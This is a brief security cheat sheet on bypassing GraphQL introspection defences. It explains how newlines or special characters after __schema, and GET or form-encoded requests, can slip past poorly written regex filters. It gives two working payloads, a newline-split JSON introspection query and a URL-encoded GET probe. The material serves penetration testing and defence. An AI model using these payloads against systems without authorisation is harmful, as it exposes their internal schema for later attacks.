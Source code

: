 # Bypassing GraphQL introspection defenses

## Methods to Bypass

* Try inserting a special character after the `__schema` keyword.
* Try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.
* if the developer has only excluded `__schema{`, then the below introspection query would not be excluded.

```
 #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

* Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.
* The example below shows an introspection probe sent via GET, with URL-encoded parameters.

```
    # Introspection probe as GET request

    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

